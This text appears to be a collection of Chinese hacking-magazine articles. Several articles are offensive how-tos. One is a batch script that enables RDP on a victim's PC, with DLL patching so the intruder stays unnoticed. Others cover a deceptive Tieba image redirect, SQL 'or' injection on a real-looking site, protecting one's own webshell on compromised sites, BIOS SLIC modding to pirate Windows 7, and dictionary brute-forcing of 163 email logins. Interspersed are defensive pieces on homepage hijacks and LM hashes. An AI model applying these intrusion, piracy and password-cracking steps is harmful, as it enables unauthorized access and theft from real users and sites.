echo "DenyTSConnections"=dword:00000000>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
regedit /s 3389.reg
del 3389.reg
```

其实上边的代码也就是先使用 echo 命令生成一个利用注册表开启 3389 的 reg 文件并导入注册表中，最后再删除这个生成的 reg 文件。代码全部执行完毕后，我们在 cmd 下使用 **netstat -an** 命令查看一下电脑都开启了什么端口，如果有 3389 端口的话，就说明开启成功了，如图 2。接下来我们就可以进行远程连接了，在“开始”—“运行”栏中输入 mstsc 调出远程桌面连接窗口，在“计算机”栏中输入对方的 IP 地址后就可以点击“连接”按钮进行连接了，如图 3。

对于开放了 3389 端口却无法完成远程连接的情况，大概有以下几种原因：

- 1. 对方处于内网中，我们可以在 cmd 下使用 **ipconfig** 命令查看其 IP 地址是内网还是外网的，如果对方 IP 地址显示为 192.168.x.x 或 10.10.x.x 的，那么就是在内网中，我们当然无法直接连接，只有进行了端口映射后才可以。
- 2. 更改了默认的 3389 端口，比如更改成了 3309 等。对于这种情况我们就得先查找到真正的端口号，然后在连接的时候，在 IP 地址后边跟上端口号才行，如图 4。
- 3. 对连接的 IP 进行了限制，对于这种情况就建议小菜们放弃了。

如果对方电脑的 3389 端口打开了，也能连接了，我们都知道 XP 系统是只允许一个用户同时登录的，如果我们通过 3389 连接了对方的电脑，那么正在电脑前使用的朋友就会被迫退出登录。这样对方也就会知道有人入侵使用自己的电脑了，所以我们要给 XP 系统进行双开，双开后才能像 Win2003 服务器那样，允许多用户同时登录。

下面我就给大家介绍一下如何给 XP 系统双开，使用到的工具有三个：3389.bat、termsrvhack.dll、xp3389.exe。具体的操作步骤如下：

- 1. 把 xp3389.exe 和 termsrvhack.dll 上传到目标电脑 C 盘根目录下并运行 xp3389.exe，如图 5。
- 2. 来配置 3389.bat 文件，首先在目标主机的 cmd 下执行 **tasklist /svc**，找到“SVCHOST.EXE 696 DcomLaunch,TermService”，记录下来 pid 为 696，如图 6。然后替换掉原 3389.bat 中第二行代码的 1464，也就是更改成“@ntsd -c q -p 696”，最后进行保存。
- 3. 将修改后的 3389.bat 文件上传到目标主机上并运行，如图 7。

经过以……上几个步骤便完成了 XP 系统的双开，现在我们就可以进行连接了。此时的 XP 系统已经可以同时登录 2 个用户了，我们登录对方的电脑，对方也不会被挤出桌面了，如图8。在 Windows 的任务管理器的“用户”中也可以看到有两个用户同时存在哟，如图9。

（文章中所用到的 3389.bat 文件、termsrvhack.dll 和 xp3389.exe 已收录到光盘中）

# 百度贴吧转向


这年头怪事连连，连百度贴吧的图片也可以实现跳转了，只要我们点击图片就可以跳转到任何你指定的网站或者论坛。实现的方法非常简单，但就这居然还有人拿来卖钱呢，先 BS 一下。

首先建立一个文本文件，把下列代码复制进去（以 ASP 语言为例），然后再把文本文件的名字改成 index.asp：

```asp
<%
if Instr(request.ServerVariables("HTTP_REFERER"),"baidu")>0 Then
    url="1.jpg"  '图片名，也可以是GIF/BMP格式
else
    url="http://www.test.com/"  '要跳转的地址
end if
response.Redirect(url)
%>
<html xmlns="http://www.w3.org/1999/xhtml">
<head runat="server"><title></title></head>
<body><form id="form1" runat="server"></form></body>
</html>
```

将以上代码保存成 index.asp，里面的“url='1.jpg'”就是图片文件，我们选择一个图片文件并保存成 1.jpg，新建一个文件夹，名字更改成 1.jpg，然后把刚才建立好的 index.asp 和 1.jpg 都放在这个文件夹里，并把该文件夹上传到支持 ASP 的网络空间中或自己的 IIS 服务器上就行了。

在实际的操作过程中，图片最好是比较诱惑人点击的那种。如果有人不小心点击了图片，浏览器的地址就会自动跳转到我们指定的网站。原理其实非常简单，就是利用目录下的 index.asp 接管图片访问并重定向。


# 用好系统自带的加密功能


人们常说“硬盘有价数据无价”，自从“艳照门”事件大白于天下后，电脑用户对于数据安全的认识也开始逐渐加强，于是很多人都在问使用什么软件，才能够保护好自己硬盘中的数据。其实有谁可以比微软更熟悉 Windows 系统呢，所以使用系统自带的加密功能就稳妥又方便。

## 一、系统文件加密

在国庆节期间，本来是举国欢庆的时刻，可是我的心情却非常糟糕，因为我的系统中了“死亡问答”病毒，系统中所有的文档和图片都被感染了……

在有专业人士帮我恢复了一些数据后，自这次事件后，我就开始考虑如何对这些数据进行保护。


我们要想使用系统自带的加密功能，磁盘的分区必须使用 NTFS 格式才可以，如果不是的话，我们可以打开“开始”→“运行”栏，输入 `convert c:/fs:ntfs` 后回车执行，就可以将 C 盘转换成 NTFS 文件系统了，如图1。大家可以根据自己的实际情况，将命令中的 C 换成其它的盘符，这样就可以对这些分区进行格式转换。

在需要加密的文件夹上点击鼠标右键并选择“属性”，在弹出的属性窗口中点击“高级”，在弹出的“高级属性”窗口中勾选上“加密内容以便保护数据”选项，点击“确定”按钮后再点击“应用”按钮就可以了，如图2。在成功进行加密操作后，文件夹的名称将会变成绿色显示。

使用了系统的加密功能后，我们就把加密文件和当前的系统账号进行了捆绑。也就是说，如果不是使用这个账户登录系统，无论是通过双系统还是 WinPE 来看加密文件，都只会看到“拒绝访问”这样的系统提示。不过这里还是要提醒大家一下，如果要进行系统的重新安装或使用其它系统账号，需要对加密的文件进行解密或者备份才行，以避免这些加密文件无法正常使用。

### 二、U 盘文件加密

由于目前 U 盘的容量越来越大，而且使用和携带都非常方便，因此我们都喜欢使用它来存储文件，可是其中有些文件涉及到了个人隐私，因此加密就成为了一个非常重要的手段。那么使用什么样的加密方法最简单有效呢？其实利用系统自带的 BitLocker 功能就可以非常好地进行加密操作。

首先打开系统的控制面板，双击打开“系统和安全”，然后在“系统和安全”窗口中选择“BitLocker 驱动器加密”。这时就可以在 BitLocker 驱动器加密窗口中查看到系统中的所有磁盘盘符。由于这些磁盘还没有经过加密处理，所以我们在磁盘列表中选择 U 盘的盘符，然后点击旁边的“启用 BitLocker”按钮就可以了，如图3。首次启用 BitLocker 加密驱动器的时候，需要进行初始化的相关设置，并且设置解锁驱动器的相关方式。通常情况下，我们只需要选择“使用密码解锁驱动器”选项；然后输入相应的密码信息就可以了，如图4。需要注意的是，密码的长度不能少于八位。


为了避免用户忘记密码信息，系统会提示我们进行密钥的备份，这时可以选择“将恢复密钥保存到文件”这种方式，或者直接点击“打印密钥”都可以，如图5。在完成上面的配置操作后，程序会询问用户是否准备加密驱动器，我们点击“自动加密”按钮进行确定即可。这时就会弹出一个正在加密的窗口，从窗口可以看到加密的过程，整个过程需要几分钟的时间，如图6。


加密完成后就可以在 BitLocker 加密驱动器窗口中看到刚才加密的盘符添加了一个黄色的锁状图标，这就表示该驱动器目前处于 BitLocker 的加密保护状态中。如果要使用该 U 盘中的文件，我们只需要在系统的资源管理器窗口中用鼠标双击这个加密的 U 盘，然后在弹出的窗口中输入正确的密码，最后点击窗口中的“解锁”按钮就可以了。

## 菜鸟也能 Windows 7 硬激活

Scythe Han


2010 年 XP 将死，小菜我为了爱机的安全不得不忍痛放弃了心爱的 XP 系统，正好妖娆与美观一身的 Windows 7 出现了，这让我眼馋不已。可是 Windows 7 的反盗版系统做得很严密，软激活（通过软件模拟 BIOS 激活 Windows 7）的存活周期很令人担忧，所以我毅然地选择了硬激活（通过修改 BIOS 激活 Windows 7）。废话少说，我们直接进入正题（声明：刷新 BIOS 有一定危险性，请大家慎重考虑后再刷新）！

首先简单介绍一下 Windows 7 OEM 的认证原理。微软 OEM 认证系统中有一个叫 SLP（System-Locked Preinstallation）的东西，它会读取 BIOS 里的一段信息与自身的 OEM 信息进行比较，同时检测 BIOS 的 OEM 证书与 SLIC 表。如果这几项均通过，那么我们就能安装直接激活的正版 Windows 7 了，我们要修改的正是这几个东西。

首先查看你主板 BIOS 的类型。BIOS 的类型在开机时会在左上角显示一小段时间，如果你眼睛不够快的话可以使用 EVEREST 看，而且我们后边还要用到它。打开 EVEREST，在左侧的选项栏里依次点击“主板”和“BIOS”，就可以看到本机 BIOS 的类型了，如图1。


目前修改 BIOS 比较成熟的有 Award BIOS 和 AMI BIOS 两种（其它种类的我没有找到）。确认后我们需要在网上下载一个你的主板 BIOS 文件，在官网或者驱动之家都可以下载到，最好是和你现在使用的 BIOS 版本一样。BIOS 文件下载后一般格式是 ZIP，解压后才是真正的 BIOS 文件。以我的主板为例，BIOS 是 ASUS 的 P5Q3，如图2。

接下来就是我们的两位主角上场了——AMITool 和 AwardTool（由于该软件是由 .NET 编写的，所以在使用前需要安装 Microsoft .NET Framework 2.0）。顾名思义，它们一个是修改 AMI 的，另一个是修改 Award 的。这两款修改工具完全是傻瓜化的 BIOS 修改工具，非常适合我们小菜使用。以我的主板为例，解压 AMITool 后双击运行 AMITool_cn.exe，如图3。

点击载入原 BIOS 文件，如图4，然后载入 SLIC 文件。因为我下载的 Windows 7 是 LENOVO 的，所以我要安装它的 Windows 7 系统，就必须载入 LENOVO 的 SLIC，如图5。

然后校验 LENOVO 证书，如图6，载入后会提示验证成功。最后一步，点击执行按钮后程序就会自动进行修改了，几十秒后会提示成功，如图7。

找到修改后的 BIOS 文件，如图8，最关键的时刻到了，使用 BIOS 刷新软件将修改后的 BIOS“刷”进你的主板。现在的大厂商主板基本上都有 Windows 环境下的刷新软件，就以我的主板升级工具 ASUS Update 为例，点击下拉菜单选择“从档案升级 BIOS”，点击下一步找到修改后的 BIOS 文件，如图9。


点击升级按钮后就开始升级了，这时候我们最好闭上眼睛祈祷不要刷坏 BIOS，如图10。在这里还有一个小插曲，我和斌良就能否在 Windows 环境下刷新 BIOS 的问题上争论了很久，最后以平局结束，原因是 ASUS Update 是在电脑重启后在 DOS 下自动执行 BIOS 的刷新……（貌似是我输了……）。

如果我们的电脑在重启后没有报警或者黑屏，也别高兴得太早，进入系统后使用 EVEREST 查看一下你的 BIOS 信息，OEM ID 显示为 Lenovo 的话才能说明修改成功了，如图11。接下来的步骤就是愉快地安装正版 OEM Windows 7 了，记住要重启安装。


图10


图11

装 Windows 7，安装中不会遇到任何阻碍，完成后我们就会看到 Windows 7 那靓丽的界面了，最重要的是永久激活，永久免费，随便更新的哦！

修改 BIOS 安装 OEM Windows 7 到此就结束了，AwardTool 的操作和 AMITool 几乎一模一样，其它品牌 OEM 的修改大家可以参照着我的“葫芦”来画你们的“瓢”，我就不再废话了。顺便提一句，我这个方法也同样适用于做娇 Vista 的激活，最后祝大家都能成功用上正版的 Windows 7。

> （文章中所用到的 AMITool 和 AwardTool 已收录到光盘中）

## 打击流氓：我的 IE 主页我做主


凡间幽灵

相信大家在网络畅游的同时也曾经碰到过自己或者朋友的 IE 浏览器主页被一些莫名其妙的流氓主页所代替。都说请神容易送神难，这些不请自来的流氓主页往往会让人感到很头疼甚至是不知所措，很多人甚至会为了主页被恶意修改无法恢复而重装系统，可谓是损失惨重。

```
HKEY_USERS\S-1-5-21-1336549001-1755263261-783941789-1001\Software\Microsoft\Internet Explorer\Main->start page
```

解药：打开注册表编辑器，以修改后的 IE 地址作为关键字进行搜索（比如被修改后的网址为 www.yy2000.net，那我们就可以使用 yy2000 作为关键字进行搜索），将搜索到的注册表键值恢复成原始状态或者直接删除即可，如图1。

目前网上也有很多修复主页的工具，比如超级兔子、360 安全卫士、黄山 IE 修复专家、Windows 清理助手等，它们都提供了清除恶意软件修复 IE 主页的功能。但毕竟“流氓”是杀之不尽的，很多时候只依靠这些软件未必会将 IE 修复过来，所以掌握常见的修复首页的方法对小菜来说是极有必要的。

### 一、恶意程序篡改 IE 主页常用方式和解决方案

- 1. 修改注册表键值将 IE 的默认主页修改  
  具体的位置就是：

```text
HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main->start page
```


图1

- 2. 在 IE 图标右键属性中的“目标（T）”中添加目标网址

解药：该地方默认的应该是“`C:\Program Files\Internet Explorer\IEXPLORE.EXE`”，删除多余的字符即可，如图2。


- 3. 增加注册表项

就是在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Desktop\NameSpace` 和 `HKEY_CLASSES_ROOT\CLSID` 处增加注册表项，以达到替换桌面默认的 IE 图标，并且桌面显示图标无法删除。

解药：这里是通过 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Desktop` 创建桌面图标 NameSpace，注册键名为 `{E188F7A3-A04E-413E-99D1-D79A45F78506}`（每个流氓页面的键值会有所不同，不过处理方法都一样），然后再创建一个 CLSID，关联到 `{E188F7A3-A04E-413E-99D1-D79A45F78506}` 使其桌面快捷方式不被删除，如图3。


有时我们还会遇到恶意网址在注册表里搜索不到的情况：

```text
HKEY_CLASSES_ROOT\CLSID\{E188F7A3-A04E-413E-99D1-D79A45F78506}\Shell\Open\Command@="C:\\Program Files\\Internet Explorer\\iexplore.exe %1 h%t%t%p%:%/%/%w%w%w%.%y%y%12%10%10%10%"
```

这是因为 iexplore.exe 后面跟的并非明文网址，因此通过注册表搜索恶意网址相关域名自然不会有结果。删除这两项修改过的注册表键值，桌面多出来的 IE 图标就会被删除了。

- 4. 修改注册表的键值

就是对 `HKEY_CLASSES_ROOT\CLSID\{871C5380-42A0-1069-A2EA-08002B30309D}\shell\OpenHomePage\Command` 键值的修改，如图4。图中的数字只是将网站的 IP 地址转换成了十六进制，再转换成十进制，这样可以让人有些摸不着头脑，毕竟直接在注册表里搜索网站地址是找不到的。

不过 1089060423 其实是 Google 的 IP 地址转换过来的。如果想让浏览器打开百度，我们可以直接将百度的 IP 地址 220.181.37.55 转换成 16 进制 `DC B5 25 37`，再转换成 10 进制，得到 3702859063，写在该键值处就行了。

在这里修改后，即使 IE 主页设定的是其它主页，打开浏览器后也会自动加载这个网址。简单点的流氓网站会将自己的网址直接写上去，不过要是以这种形式来隐藏自己，还是会给我们手工清除造成一些麻烦的。


解药：该键值的默认值为：`"C:\Program Files\Internet Explorer\iexplore.exe"`，直接删除多余的字符即可。

- 5. 通过加载驱动的方式来修改主页，且不允许修改

解药：目前遇到的修改主页的恶意程序，使用比较多的是生成一个驱动，加载驱动后篡改 IE 主页并且保护自己不允许其它程序进行修改，包括手动修改方式。此时我们可以通过 Autoruns 之类的工具来查看系统自启动信息，重点查看陌生驱动，特别要注意。对于自己把握不准的文件先在网上搜索，可以先将该驱动改名或者取消自启动方式，以避免直接删除后可能会造成系统异常而无法恢复。大家查找起来不方便，可以准备一款小而强悍的搜索专用小工具 Everything，搜索自己电脑的任何文件都会变得轻而易举了，如图6。

- 6. 通过加载 DLL 文件的方式修改主页

曾经遇到过一个恶意程序，运行后会在系统的 system32 目录下生成一个 DLL 动态链接库文件，并且修改注册表以实现 IE 启动时自动加载该动态库，而不会去修改注册表中关于 IE 主页的相关项，从而更加隐蔽地打开流氓网址，劫持我们的主页。其现象就是 IE 主页被修改，但在注册表中一切正常，IE 图标属性也正常，IE 设置一切正常。

解药：记得刚开始的时候也是按照常规思路查看 IE 图标属性和注册表等常规地方，发现一切正常。后来查看我电脑上安装的微点相关日志，才发现 IE 的进程生成了一个 exe 文件，该 exe 文件又在系统的 system32 目录下生成了一个 dll 文件，并且在打开 IE 进程后带有模块，发现该 dll 文件被加载了。关闭 IE 后将该 dll 文件改名，再次打开 IE 后一切正常，遂删除之。大家可以在遇到类似情况的时候使用这种办法来查看，使用工具重点查看 IE 进程加载的 DLL 文件是否有异常，如果有可以先将其改名再观察问题是否解决。

- 7. 删除系统默认的 IE 图标，恶意程序自己新建一个 IE 快捷方式

这种恶意程序是一种综合性的修改，其修改 IE 的方式会综合上述 6 点的其中几项，并且还可能会在桌面新增几个图标，比如桌面美化、小游戏等快捷方式，图标并非 IE 浏览器图标，只是挂羊头卖狗肉的招式诱骗用户误点击而已。这种情况在使用前面介绍的方法解决主页被劫持后，还需要将恶意程序找到一并删除才行，不然斩草不除根，春风吹又生。

恶意程序修改 IE 主页的常见方式基本上也就是这些，当然可能也有其它一些比较少见的情况，大家有空的话可以写出来相互交流一下。


图5


图6

> 如果出现无法修改属性，则应该查看当前用户是否有权限来修改该文件夹，查看的方法如下：

- 打开“我的电脑”→“工具”→“文件夹选项”→“查看”，不勾选“使用简单文件共享（推荐）”，然后点击确定保存设置。
- 右键打开桌面文件夹或者快速启动栏的文件夹属性，点击“安全”，查看当前用户是否有对该文件夹的完全控制、修改等权限，如果没有则勾选相应设置，最后保存设置。
- 此时再去修改桌面文件夹或者快速启动栏文件夹的属性。

### 二、IE 快捷方式文件的属性被保护的解决方法

我们在修改 IE 快捷方式属性的时候，经常会出现如图5所示的情况。出现这种情况的原因，大多是因为恶意程序将该快捷方式修改后设置成了只读属性，我们需要先将快捷方式的只读属性去除，然后再修正过来。

另外也有恶意程序会将这些文件所在文件夹的属性也修改成只读，所以也需要对该文件和文件夹的属性都查看一下。比如 XP 系统默认桌面文件夹的位置“C:\Documents and Settings\Administrator\桌面”，还有经常被恶意程序盯上的快速启动栏默认位置“C:\Documents and Settings\Administrator\Application Data\Microsoft\Internet Explorer\Quick Launch”。

## 三、修改注册表提示：没有权限修改或者编辑出错

我们在修改注册表相关键值的时候，有时系统会提示没有权限修改或者编辑出错，如图7。这种情况大多是因为恶意软件将我们对该键值的修改权限给去掉了。我们在左边注册表相应的位置右键点击该注册表项，选择“权限”，查看当前用户是否有完全控制权限，如果没有的话添加上去就可以正常修改了。

如图8所示是一个正常的权限设置，大家可以参考使用。最后我们点击确定保存设置，修改后再去修改右边框中的注册表键值。如果权限那里提示不能修改，可能是因为恶意软件将该键值权限所有者进行了更改，我们右键点击“权限”→“高级”→“所有者”，把我们被删掉的账户重新添加进去再试就可以了。


该浏览器图标右键菜单里有一个“共享”菜单，点进去后发现，不知道是哪个流氓软件想出来的方法，将该快捷方式给共享出去了。而正在共享使用的东西当然是不让修改和删除的。马上停止共享，退出来再修改和删除就恢复正常了，当时相当无语，感觉现在的流氓软件越来越有“文化”了，也越来越可怕了。唉，技术如果不用在正路上，真的危害甚大啊（目前还没有在 XP 系统上遇到此类问题，毕竟 Vista 和 Windows 7 的许多小功能都是 XP 没有的，而一旦这些小功能被恶意软件所利用，也会让我们感到很纠结的）。


## 啊，恶意软件创建的桌面 IE 快捷图标在删除或修改时会报警

这个是最近才遇到的情况，三四个论坛上过来的朋友都遇到了同样的问题：桌面上的浏览器图标无法修改和删除，查看属性及注册表键值一切正常，当时绕了不少圈子，最后无意中看到……

以上这些只是在日常使用过程中，为自己电脑或者给朋友处理问题时所遇到的一些情况。现在稍微总结了一下，还有很多情况没有提到，而且恶意程序作怪也是多种多样、不断变化的。毕竟时代在进步，利益在驱使，技术也在不断完善。但是正因为道高一尺，魔高一丈，在与恶意程序的不断斗争中，我们才有竞技的乐趣，我们的技术才能不断巩固加强！（文章中所用到的搜索专用小工具 Everything 已收录到光盘中）

# 精妙“or”注入的应用

菲&王兴东

文章开头我们先说一下“or”的作用，“or”和“and”都是用来连接两个条件。在使用“and”连接的时候，必须要求两个条件都为真才会返回“true”；而在使用“or”连接的时候，只要其中有一个条件为真就会返回“true”。

下面我们就开始实战分析注入点“http://www.xxxxx.com/news/meiwen.php?Type=4&id=32”，数据库使用的是 MySQL。


正常访问时的页面如图1所示，在网址后面添加“or 1=1”，提交后返回了如图2所示的错误页面；而在网址后面添加“or 1=2”，提交后则返回了如图3所示的正常页面。

or 注入分析：我在自己的 MySQL 里和大家分析一下原理会比较容易理解。我们先在 MySQL 里执行如下语句。

```sql
create database feitest;
create table fei(id int,title varchar(20),names varchar(20));
insert into fei values(1,'Fei a Test1','test1');
insert into fei values(2,'Fei a Test2','test2');
insert into fei values(3,'Fei a Test3','test3');
```

No1: `select title,id from fei where id=2;`

执行结果如图4所示，和我们预想的一样，返回了 id 为 2 的“title”和“id”这两列的值。

No2: `select title,id from fei where id=2 or 1=1;`

执行结果如图5所示，返回了表里的所有数据……


图4


图6


图5


图7

No3: `select title,id from fei where id=2 or id=1;`

这句执行后的结果如图6所示。返回结果说明在条件判断中，两边条件都会参与判断，并可看出 SQL 执行顺序与 where、select 的关系。

可能大家疑问为什么返回的是所有记录。这里需要理解 MySQL 执行优先级、执行顺序以及对 `or` 的常见误解。

导致这个结果的常见误解是把 where 的条件判断简单理解为“1=1 为真，id=1 不再判断”，这是错误的。

No4: `select title,id from fei where id=2 or 1=2;`

执行结果如图7所示，等同于 `select title,id from fei where id=2;`。因为 `1=2` 为假，仅匹配 `id=2` 的记录。

## 看我来阻止 Windows 存储密码 LAN Manager（LM）哈希

沈渝

看了前几期关于破解 Windows 系统密码的文章后，本文介绍如何阻止 Windows 存储密码的 LM 哈希。相较 NT 哈希，LM 哈希更弱，更容易被攻击读取。

下面介绍三种方法阻止系统存储 LM 哈希。首先可通过禁用 Task Scheduler 服务来减少被工具读取哈希的风险（图1）。

可在“开始→运行”输入 `gpedit.msc` 打开组策略编辑器，依次进入“计算机配置→Windows 设置→安全设置→本地策略→安全选项”（图2）。


图2


图1

在可用策略中找到“网络安全：不要在下次更改密码时存储 LAN Manager 的哈希值”并启用；再设置“网络安全：LAN Manager 身份验证级别”为“仅发送 NTLM 响应”。

## 方法1：通过使用“组策略”实现

要想通过“本地组策略”禁止在本地计算机的 SAM 数据库中存储用户密码的 LM 哈希，可按上述步骤进行配置。

## 方法2：通过编辑注册表实现

首先在“开始→运行”输入 `regedit` 打开注册表编辑器，定位到相关注册表项（`HKEY_LOCAL_MACHINE\...`）。

`SYSTEM\CurrentControlSet\Control\Lsa`，在右边的窗口中点击右键，选择新建“DWORD 值”，输入“NoLMHash”，然后按 Enter 键，双击新建的数据，并根据具体情况设置以下值：0 为禁用，1 为启用。此操作对应组策略的“网络安全：不要在下次更改密码时存储 LAN Manager 的哈希值”。

继续在右边的窗口中新建“DWORD 值”，在数值名称中输入“LMCompatibilityLevel”，然后点击确定，双击新建的数据，并根据具体情况设置以下值：

| 值 | 说明 |
|---|---|
| 0 | 发送 LM 和 NTLM 响应 |
| 1 | 发送 LM 和 NTLM 响应 |
| 2 | 仅发送 NTLM 响应 |
| 3 | 仅发送 NTLMv2 响应（Windows 2000 有效） |
| 4 | 仅发送 NTLMv2 响应，拒绝 LM（Windows 2000 有效） |
| 5 | 仅发送 NTLMv2 响应，拒绝 LM 和 NTLM（Windows 2000 有效） |

此操作对应组策略的“网络安全：LAN Manager 身份验证级别”。退出“注册表编辑器”，重新启动计算机，然后更改密码以使设置生效。

### 方法3：使用长度至少为 15 位字符的密码

阻止 Windows 存储密码 LM 哈希的最简单方法就是使用长度至少为 15 位字符的密码。在这种情况下，Windows 会存储无法用于验证用户身份的 LM 哈希值。

通过上面介绍的几种方法，再配合前几期介绍的 Windows 密码破解系列文章，相信大家对于 Windows 的密码攻防都有了一定的了解。

## Webshell 后门检测与预防

swan

很多刚学“黑”的小菜拿着网上流传的免杀 WEBSHELL 到处黑站，可过几天却发现自己辛苦搞下的站点，不经意就“飞走了”。一般情况下，为了免杀的需要都会对 ASP 木马的代码进行加密处理，但很多 ASP 加密器都有后门，不懂得解密与查看代码的入门者，几乎很难知道是否在 webshell 中有后门。

制作 ASP 木马加密器以及公布免杀 ASP 木马的人，很有可能在代码中加入了特定代码。其实原理和盗号木马也是相同的，就是把我们的 webshell 地址和密码发送到特定网站，甚至利用邮箱接收这些信息。当然也有一些后门制作者为了简单省事，就使用了“万能密码”。针对这种情况，我们利用 netstat 命令对比 IP 地址是可以稍微查出点端倪的。只是有些不确定，抓包分析是个非常好的主意，但利用工具 WPE 设置和查看代码却是件繁琐的事情。其实利用“EasyURLSpy”（简易网址嗅探器）就可轻松解决这个问题，如图1。

在上图中可以看到，当访问 webshell 网址时（登录后）会发送一条带有加密数据的网址，这就是后门地址。当然这个工具也可以作为“影音嗅探器”来使用，如果想得到明文地址的话，可以抓取地址。

找个免杀的 webshell 挺不容易的，丢了感觉又很可惜。在不清楚后门代码的情况下，有什么办法既可以让我们继续使用，而又不让那个“坏人”得到我辛苦的“战果”呢？方法当然是有的。


我们在要做手脚的 asp 文件里加入如下代码，如图2。访问的时候在你做手脚的 asp 文件后面加上“?action=ok”即可。这里并没有声明，如果没有在地址后面加“?action=ok”就不可以正常访问 ASP。

```asp
<%if request("xxx")="123" then%>
shell代码插在这里！
<%end if%>
```

图2

（上半页为双栏正文，内容讨论 webshell 后门隐藏、参数验证与重定向防护等。）

```asp
<%if request("xxx")="123" then session("xxx")="123"
if session("xxx")<>"123" then response.end()%>
```

图3

```asp
<%if request("xxx")="123" then session("xxx")="123":response.Redirect "你webshell的名字,如:diy.asp"
if session("xxx")<>"123" then response.Redirect "胡编一个地址,出现找不到网页"%>
```

图4

```asp
<%if request("xxx")="123" then
  session("xxx")="123"
  response.Redirect "你webshell的名字,如:diy.asp"
end if
if session("xxx")<>"123" then response.Redirect "胡编一个地址,出现找不到网页"%>
```

## 营救的应急网络——虚拟无线


（下半页为双栏正文，内容讨论校园断网后通过无线接入点/ChinaNet 页面进行连接尝试与说明。）


# 傻瓜黑莓


垃圾手机（Nokia 2630）都已经内置蓝牙了，就更不用说现在的 N 系列或者山寨机了。既然蓝牙能够传输文件，那么它能传输网络吗？答案是肯定的。前几天我刚买了蓝牙适配器（30 元，买贵了），用在电脑上的，因为我的笔记本上没有内置蓝牙。我试着将它和手机连接，果然成功了。这是 Windows 7 系统默认自带的蓝牙功能，已经包含了我们常用的功能，比如文件发送接收，还有连接网络组建局域网等……


现在我使用手机 Nokia 2630 配对，配对过程仅仅是设置一个密钥，很简单的。如果想利用手机上网，那就点击第二个图标，然后在拨号连接向导中的国家和地区选项中选择 China，ISP 默认就可以了，点击完成后就可以拨号上网了！


为了更好地使用 Nokia 手机，Nokia 公司还推出了 Nokia PC 套装，很实用。它支持手机和电脑连接为一体，连接方式有电缆连接、红外连接、蓝牙连接。因为我的破手机没有数据线，没有红外线，只有蓝牙，所以就只能用蓝牙连接了，如图5。通过手机连接网络就是第三个图标，同样拨号时也得选择区域 China。

以上是利用无线 AP 来上网，讲到了无线我们还会想到一种新技术——蓝牙。大家都知道蓝牙现在很普遍、很流行，在许多人的手机中也都已经内置了蓝牙……

好了，无线网络就介绍到这儿，最后希望大家在紧急时刻可以通过以上的方法连接到网络（为什么说是在紧急的时刻呢？因为这种上网方式可不是廉价的）。注明：以上均在 Windows 7 中测试，在其它系统中也是完全可以的。

## 在我的 Xmarks 书签

几天前，我的 Xmarks 书签无法同步了，网站也打不开。可是使用在线书签实在是太方便了，我实在是舍不得放弃。记得 Xmarks 可以使用自己的服务器，研究了一会儿，终于有了完美的解决方案。


打开 Xmarks 设置—“高级”—“使用自己的服务器”，下面有个 learn more（学习更多）的链接。打开一看，居然全是英文，使用 Google 语言工具来翻译一下，原来 FTP 服务器和 WebDAV 服务器都可以为书签提供同步，但相对来说使用 FTP 比较简单，而且网上也有许多免费的空间，如图1。

接下来的问题就变成如何寻找一个 FTP 服务器了。我们打开 Google 搜索“免费 FTP”，找到了很多。可是很多免费空间使用了一段时间后就不能用了，或者干脆直接消失。费了九牛二虎之力终于找到了“http://g.ho.st/”这个网站，如图2。它提供了一个在线虚拟电脑，只需要使用浏览器就可以登录，然后就可以在线使用电子表格、图片编辑、在线浏览器等程序。最关键的是它提供了 15G 的在线空间，并且支持 FTP 方式访问。


图2


图3


图5


图4

打开 Xmarks 设置-“Status”，填上我们刚才注册的用户名和密码（如果你有自己的 FTP 服务器，那么这里就填写你的 FTP 用户名和密码），如图3。再打开“Type”，勾选“Bookmarks”（这里不建议同步密码），同时勾选“允许自动同步”，如图4。再打开“高级”，勾选上“使用自己的服务器”，此时就会弹出一个对话框，如图5。我们在“地址”栏填写“ftp://ftp.g.ho.st/foxmarks.json”，在“Password Url”栏填写“ftp://ftp.g.ho.st/password.json”（其它 FTP 服务器的填写格式为“ftp://主机名/目录名/文件名.json”），填写好后点击“确定”，再次点击“确定”完成所有设置。

# 网内破解：我们就用“朔雪II”

接触网络安全比较早的人，一定都知道大名鼎鼎的小榕。他开发的“流光”和“溯雪”，一度成为了网络上扫描探测和破解的倚天剑、屠龙刀。最近一段时间，网上有人公布出了最新版的“朔雪II”，本文我就介绍一下如何使用它来进行网络密码的破解。

## 一、普通网站的破解

这次发布出来的“朔雪II”版本，据说并非出自小榕本人之手，而是由他的朋友开发出来的。但是本着“黑猫白猫，能抓着耗子的就是好猫”的原则，我们还是通过实际测试来体验一下这个版本的具体能力如何。

首先从网上下载最新版的“朔雪II”安装包，解压后运行安装文件夹中的程序，安装完成后就可以看到“朔雪II”的庐山真面目了。总的来说，“朔雪II”的操作界面和以前的老版本差不多，这样也好，我们操作起来会更容易上手。

我们就以网易 163 的 VIP 邮箱来进行测试吧。首先在“朔雪II”的“地址”栏中填写网易的网址，打开网站后点击网页中的“免费邮箱”链接，就可以看到网易邮箱的登录界面了，如图1。在左侧操作区域的“单击导入相应的表单元素”中，我们点击鼠标右键并选择菜单中的“导入表单”命令，这时“朔雪II”就会自动提取网页中的表单信息。提取完成后我们选择其中的 Loginvip 这个选项，如图2。注意，提取出来的表单元素并不是固定的，每个网站的表单名称都会有所不同。


图1

这样在表单提取区域的下方，就可以分析出表单中的各项元素，其中的 username 和 password 就是我们破解的重点，因为这两项分别代表着用户名和密码信息。我们双击打开列表中的 username 项，在弹出的“编辑表单元素”窗口中，选中“使用字典”并在下拉列表中选择 Name.Dic 这个字典文件，如图3；同样双击打开列表中的 password 项，在弹出的窗口中选择 password.Dic 这个字典文件，如图4。

接下来选择朔雪II“运行”菜单中的“开始”命令，这时会弹出一个“选择标记”的窗口，在其中可以看到一个错误提示的语句内容，比如这里的错误特征码为“请检查用户名和密码的输入是否正确！”。


图2


图3


图4

